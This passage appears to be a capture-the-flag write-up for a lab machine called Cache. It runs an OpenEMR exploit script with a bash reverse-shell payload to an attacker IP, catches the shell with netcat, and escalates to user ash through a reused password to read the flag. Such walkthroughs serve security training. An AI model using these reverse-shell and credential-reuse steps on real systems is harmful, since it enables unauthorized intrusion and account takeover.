 ``` 
[_4m0r@manjaro Cache]$ ./exploit.py -u openemr_admin -p xxxxxx http://hms.htb -c '/bin/bash -i >& /dev/tcp/10.10.14.186/9095 0>&1'  
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.     
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\    
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/    
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (     
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \    
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\   
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__)  
                                                        
   ={   P R O J E C T    I N S E C U R I T Y   }=     
                                                        
         Twitter : @Insecurity                        
         Site    : insecurity.sh                      
 
[$] Authenticating with openemr_admin:xxxxxx 
[$] Injecting payload 
```
```shell 
[_4m0r@manjaro Cache]$ nc -nvlp 9095 
Connection from 10.10.10.188:52444 
bash: cannot set terminal process group (1856): Inappropriate ioctl for device 
bash: no job control in this shell 
www-data@cache:/var/www/hms.htb/public_html/interface/main$ id 
id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
The reverse shell received was from the user **www-data** and had no access to the user flag on */home/ash*.

## Elevating to user *ash*
A set of credentials pertaining to the user *ash* was already identified during *Web Service Enumeration* as 
**ash:H@v3_fun**. If the user had reused their password, the reverse shell session can be switched to *ash* using **su**.
Attempting the same, resulted in elevating the session to that of user ash, and the user flag was read. The same is 
shown on the section below.
```shell 
www-data@cache:/home/ash$ python3 -c "import pty;pty.spawn('/bin/bash');" 
python3 -c "import pty;pty.spawn('/bin/bash');" 
www-data@cache:/home/ash$ export TERM=xterm-256color 
export TERM=xterm-256color 
www-data@cache:/home/ash$ su ash 
su ash 
Password: H@v3_fun 
 
ash@cache:~$ id      
id 
uid=1000(ash) gid=1000(ash) groups=1000(ash) 
ash@cache:~$ cat user.txt 
cat user.txt 
c4a04---REDACTED---75cad 
```